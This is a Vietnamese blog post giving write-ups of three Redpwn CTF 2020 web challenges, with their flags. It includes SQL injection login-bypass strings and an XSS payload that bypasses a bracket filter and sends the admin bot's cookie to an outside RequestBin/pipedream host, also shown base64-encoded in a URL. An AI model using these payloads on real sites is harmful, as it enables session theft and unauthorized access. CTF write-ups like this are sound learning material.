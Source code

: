 ```yaml
---
layout: post
title: Redpwn CTF 2020 - Web
subtitle: Web Security - CTF
tags: [ctf, web]
image: /img/redpwn.png
share-img: /img/redpwn.png
---
```


Nhân ngày đẹp trời đồ án mọi thứ xong xuôi vào chơi [ctf](https://ctftime.org/) thì thấy giải này nên apply chơi .. và nhận ra giải cực kì hay và chất lượng `well-made challenges` !


# Inspector General
<details>
    <summary>Challenge Description</summary>
    My friend made a new webpage, can you find a flag?
</details>

Chall nhìn qua thì nghe có vẻ phức tạp nhưng chỉ cần view source là thấy `flag`.
Đi đến `view-source:https://redpwn.net/` sẽ thấy flag ở `dòng 7`.

![Inspector-flag](../img/26062020/1.png)

<details>
  <summary>FLAG</summary>
  
  flag{1nspector_g3n3ral_at_w0rk}
</details>
 
***

# Login

<details>
  <summary>Challenge Description</summary>
  
  I made a cool login page. I bet you can't get in!
<br />
  Site: login.2020.redpwnc.tf
</details>

Nhìn sơ qua có vẻ như là chèn `simple SQLi`, nên đã thử `user: admin & pwd: 1' or '1'='1` hoặc `user: admin'; /*` sẽ alert ra flag.

<!-- ![Login-flag](../img/26062020/2.png) -->
<img src="/img/26062020/2.png" alt="Login flag" align="center"/>

<details>
  <summary>FLAG</summary>
  
  flag{0bl1g4t0ry_5ql1}
</details>

***

# Static-Pastebin

<details>
  <summary>Challenge Description</summary>
  
 I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here
<br />
  Site: static-pastebin.2020.redpwnc.tf
<br />
  Note: The site is entirely static. Dirbuster will not be useful in solving it.
</details>

Chall này có thể hiểu theo cách đơn giản nhất là thông qua 2 sites của chall thì 1 site sẽ tạo URL và site còn lại upload URL đó lên và Bot Admin sẽ truy cập thông qua URL đó trả về cookie kèm theo flag.

![Static-pastebin-site-1](../img/26062020/3.png)

Cứ mỗi khi mình tạo đoạn text sẽ có vài kí tự bị filter và hiển thị không như ý mình muốn, nên sẽ xem qua code js xem nó handles như thế nào...

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

Chúng ta có thể thấy khi create đoạn text lên site 1 sẽ bị decode bởi `atob()` và sau đó đi vào `clean()` nó sẽ không cho phép tạo ra đoạn text nếu như cú pháp từng dấu ngoặc không như ý nên sẽ không thực thi.. như vậy lúc này mình sẽ cố bypass qua đoạn này, lúc đầu mình nghĩ đến `HTML Entities` nhưng nó sẽ không thực thi được nên 1 lúc sau bypass được

```
><img src=1 href=1 onerror="javascript:document.location='https://[RequestBinURL]?cookie='+document.cookie"></img>
```

`RequestBin` là công cụ như `container request` cung cấp cơ chế trong đó server-side sẽ gọi đến client-side khi bắt một sự kiện nhất định nào đó.

Mình đến site thứ 2 và upload đoạn đã decode kèm theo XSS ở site 1 vào

```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPTEgaHJlZj0xIG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vZW5rbms4ZnppbGtscC54LnBpcGVkcmVhbS5uZXQ/Y29va2llPScrZG9jdW1lbnQuY29va2llIj48L2ltZz4=
```

Lúc này khi Admin Bot ghé thăm site vừa upload, đoạn mã XSS sẽ lấy cắp cookie của Admin Bot và gửi đến chính server của mình ở đây là [RequestBin](https://requestbin.com/) lúc này mình sẽ nhận lại đoạn request như thế này và kèm theo flag:

<!-- ![Static-pastebin-flag](../img/26062020/4.png) -->
<img src="/img/26062020/4.png" alt="Static pastebin flag" align="center"/>

<details>
  <summary>FLAG</summary>
  
  flag{54n1t1z4t10n_k1nd4_h4rd}
</details>


***
